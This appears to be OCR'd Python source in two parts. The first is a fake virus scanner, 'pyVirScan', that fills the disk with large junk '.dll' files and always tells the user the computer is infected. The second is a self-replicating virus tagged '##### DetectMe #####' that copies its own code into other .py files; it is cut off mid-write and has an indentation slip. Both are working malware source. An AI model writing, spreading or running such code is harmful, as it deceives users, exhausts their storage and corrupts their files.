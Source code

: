 for y in range(fillWithInt):
    block = '0' * 409600
 
    bigFile = file("sysscanresults" + str(loopNum) + ".dll", 'wb')
    for x in range(1000):
        bigFile.write(block)
    bigFile.close()
 
    percentComplete = loopNum * fillWithInt / 100
    print ("Current Progress: " + str(percentComplete) + "%")
    loopNum += 1
 
 
if 1 == 1:
    virus = 1
if 1 != 1:
    virus = 0
 
print ("-"*40)
print (" " * 12 + "Scan Completed!")
print (" -"*20)
print ("Results:")
if virus == 1:
   
    print("The results were positive, your computer is infected.")
   
    #Yet to add the text file creation
    #print("To see the full list of results, navigate to C:\\results.txt")
    #print("In the text file you will see:")
    #print ("1) What you are infected by.")
    #print ("2) Details of each infection.")
    #print ("3) What you can do to remove the virus'.")
 
if virus == 0:
    print("Your computer is clean!")
 
 
print ("Thankyou for using pyVirScan")
print ("-"*40)
exit = raw_input("Press <enter> to exit...")
import sys, glob, re
##### DetectMe #####
inVirus = False
infected = False
vcode = []
newcode = []
fh = open(sys.argv[0], "r")
lines = fh.readlines()
fh.close()
for line in lines:
    vcode.append(line)
progs = glob.glob("*.py")
for prog in progs:
    fh = open(prog, "r")
    pcode = fh.readlines()
    fh.close()
    newcode = []
for line in pcode:
    if(re.search('##### DetectMe #####', line)):
        infected = True
newcode.extend(vcode)
newcode.append(pcode.pop(0))
newcode.extend(pcode)
# Writing new virus infected code
if not infected:
    fh = open(prog, "w")